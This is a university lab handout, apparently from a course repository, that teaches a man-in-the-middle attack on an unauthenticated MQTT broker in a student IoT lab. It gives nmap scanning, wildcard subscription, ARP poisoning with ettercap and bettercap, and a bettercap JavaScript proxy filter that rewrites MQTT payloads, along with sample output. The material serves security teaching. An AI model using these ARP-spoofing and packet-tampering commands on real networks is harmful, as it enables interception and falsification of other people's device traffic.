

# Lab 3: LAN Exploits

Your goal is to attack known vulnerabilities in the target system.

## 1. MQTT MITM

### 1.1. Scenario

The attacker has gained access to an IoT LAN network, and has collected information on hosts on the network, their IPs, open ports and services. Through service scan an unprotected MQTT broker has been discovered.

The attacker then aims to discover MQTT clients and start modifying the their published messages. This requires a Man-in-the-middle (MITM) attack.

### 1.2. Document MQTT packet flow

You should have a working setup with ESP32 publishing MQTT data to a topic that it also subscribes and prints to console. So every new data message is sent to broker and received from broker. The messages travel over multiple layer 2 hops as shown in template diagram below. Your first task is to document the current setup as sequence diagram, showing the source and destination addresses for each data frame (both MAC and IP). The first hop is from my setup as an example. Update all participant addresses and message IP/MAC endpoints based on your setup.

The general logic is that

- On layer 3 (IP addressing) the packets contain source and destination IPs according to endpoints, except that in NAT translation the private network endpoint is changed to NAT public side IP.
- For each layer 2 hop, the MAC addresses should be according to hop endpoints.

To obtain the data,

- ESP32 IP/MAC addresses and data frame sample you can get from raspi using tcpdump `sudo tcpdump -e -i wlan0 tcp port 1883`
- raspi eth0 traffic similarly: `sudo tcpdump -e -i eth0 tcp port 1883`
- broker traffic: `docker exec -it mosquitto tcpdump -e -i eth0 tcp port 1883`
  '
  Update the diagram and submit to your repo as `normal-mqtt-flow.md`



### 1.3 MITM to discover MQTT clients

1. Install `mosquitto-clients` on kali VM
2. As the attacker to discover if there are running MQTT services in network, perform a port scan for default MQTT port 1883 being open in any of the hosts within LAN: In Kali VM, `nmap 192.168.1.0/24 -p 1883 --open` and you get broker IP.
3. Knowing from previous lab, the broker doesn't require authentication. Now having the broker IP, just listen to wildcard traffic `mosquitto_sub -v -h <broker-ip> -t "#"` we can receive all topics and messages. You can now see the data, but you do not know who is the sensor device publishing that data.
4. The messages don't give any info on sender devices, so we don't know publisher IP addresses. We'll use **ARP poisoning** to get into message flow so that we can see the actual messages sent from ESP to MQTT broker:
   a) In kali vm, open wireshark on eth0 and set display filter to `mqtt`
   b) If you are listening to wildcard traffic in terminal, you see those packets sent to your kali vm IP address. Next, **stop the mosquitto_sub command** and restart wirteshark capture to get clean display.
   c) To find out who (what IP addresses) are mqtt clients, you'll tell to all devices in network that broker IP belongs to kali MAC. So all mqtt clients' messages will appear in kali port 1883. - mqtt client sends ethernet frame (containing IP packet (containing MQTT publish message)) to destination MAC address. Because of ARP poisoning, that destination MAC is kali MAC. - kali receives the packet (as shown in wireshark capture), and forwards it to original broker MAC address. The frame contains original IP addresses and mqtt content.
   Start MITM attack with `sudo ettercap -T -M arp:remote /192.168.1.13// ///` (replace IP with your mosquitto container IP). Check kali wireshark: You can now see MQTT messages and sender IP, right?
   d) Document the current the setup as `mitm-mqtt-flow.md` : Add node kali in the interception point, and add + change the necessary message frame addresses according to this MITM setup.
   e) Stop the ettercap MITM with ctrl-C.

### 1.4 Modifying the data frames sent by ESP

Next your aim is not only to intercept the MQTT traffic from ESP to broker, but want to modify the packet contents as well. This can be done with `ettercap`, but for more flexibility will switch `bettercap` tool.

Open wireshark in kali. Set display filter mqtt. Initially you dont see any mqtt packets.

In kali `sudo apt install bettercap`

To see who are clients (just to replicate the step you already did with ettercap):

```
┌──(kali㉿kali)-[~]
└─$ sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.13; set net.sniff.verbose true; set net.sniff.local false; arp.spoof on; net.sniff on"

```

The previous ARP poisoning affected all devices in LAN. Next we focus only on traffic between two devices, ESP32 and the broker:

```
┌──(kali㉿kali)-[~]
└─$ sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.1,192.168.1.13; set arp.spoof.fullduplex true; set net.sniff.verbose false; set net.sniff.local false; arp.spoof on; net.sniff on"
```

To modify the packet content we use a JavaScript filter `replace.js`. Create it on kali with with content is as printed with command below (in repository there is longer more refined version, but the basic functionality is the same):

```
┌──(kali㉿kali)-[~]
└─$ cat replace.js
function onLoad() {
  console.log("[+] TCP Proxy Script Loaded.");
}

function onData(from, to, data, callback) {
    // Convert byte array to string
    var payload = "";
    for (var i = 0; i < data.length; i++) {
        payload += String.fromCharCode(data[i]);
    }

    console.log("[*] Intercepted Data: " + payload);

    // Check if the payload contains the string "data"
    if (payload.indexOf("data") !== -1) {
        // Replace "data" with "XXXX"
        var modifiedPayload = payload.replace(/data/g, "XXXX");
        console.log("[*] Modified MQTT Payload: " + modifiedPayload);

        // Modify the original data array in place
        for (var i = 0; i < modifiedPayload.length; i++) {
            data[i] = modifiedPayload.charCodeAt(i) & 0xFF;
        }

        console.log("[*] Returning modified packet.");
        return data; // Return the modified original data object
    }

    console.log("[*] No modification applied.");
    return data; // Return the original data object if no modification
}

```

Check your kali IP and modify the MITM message modification accordingly:

```
┌──(kali㉿kali)-[~]
└─$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host noprefixroute
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether bc:24:11:05:20:16 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.41/24 brd 192.168.1.255 scope global dynamic noprefixroute eth0
       valid_lft 61138sec preferred_lft 61138sec
    inet6 fe80::be24:11ff:fe05:2016/64 scope link noprefixroute
       valid_lft forever preferred_lft forever

┌──(kali㉿kali)-[~]
└─$ sudo bettercap -iface eth0 -eval "set arp.spoof.targets 192.168.1.1,192.168.1.13; set arp.spoof.fullduplex true; set net.sniff.verbose false; set net.sniff.local false; set tcp.proxy.script replace.js; set tcp.proxy.address 192.168.1.41; set tcp.proxy.port 1884; set tcp.address 192.168.1.13; set tcp.port 1883; tcp.proxy on; arp.spoof on; net.sniff on"


```

In kali, you should see messages like below, and in ESP vscode terminal you should see that subscribed data has modified content too.

```
[11:01:43] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.39:56620 to 192.168.1.13:1883 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] No match for IPs.
[11:01:43] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.13:1883 to 192.168.1.39:56620 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] Intercepted Packet From: 192.168.1.39 To: 192.168.1.13
[*] Intercepted Data: 0
                       /topic/qos0data8
[*] Modified MQTT Payload: 0
                            /topic/qos0XXXX8
[*] Returning modified packet.
[11:01:44] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.39:56620 to 192.168.1.13:1883 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] No match for IPs.
[11:01:44] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.13:1883 to 192.168.1.39:56620 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] Intercepted Packet From: 192.168.1.39 To: 192.168.1.13
[*] Intercepted Data: 0
                       /topic/qos0data9
[*] Modified MQTT Payload: 0
                            /topic/qos0XXXX9
[*] Returning modified packet.
[11:01:45] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.39:56620 to 192.168.1.13:1883 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » [*] No match for IPs.
[11:01:45] [sys.log] [inf] tcp.proxy overriding 20 bytes of data from 192.168.1.13:1883 to 192.168.1.39:56620 with 20 bytes of new data.
192.168.1.0/24 > 192.168.1.41  » q
[11:01:45] [sys.log] [inf] arp.spoof waiting for ARP spoofer to stop ...
[11:01:45] [sys.log] [inf] arp.spoof restoring ARP cache of 2 targets.

┌──(kali㉿kali)-[~]
└─$

```
